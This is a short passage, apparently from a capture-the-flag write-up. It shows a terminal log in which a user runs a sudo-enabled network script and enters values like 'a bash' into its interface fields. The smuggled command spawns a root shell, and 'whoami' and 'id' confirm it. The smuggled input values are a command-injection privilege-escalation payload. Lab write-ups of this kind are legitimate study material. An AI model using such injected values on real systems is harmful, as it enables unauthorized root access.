 ```bash
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
a bash
a bash
interface PROXY_METHOD:
b bash
b bash
interface BROWSER_ONLY:
c bash
c bash
interface BOOTPROTO:
d bash
d bash
[root@networked network-scripts]# whoami
whoami
root
[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)
```

I got a `root` shell!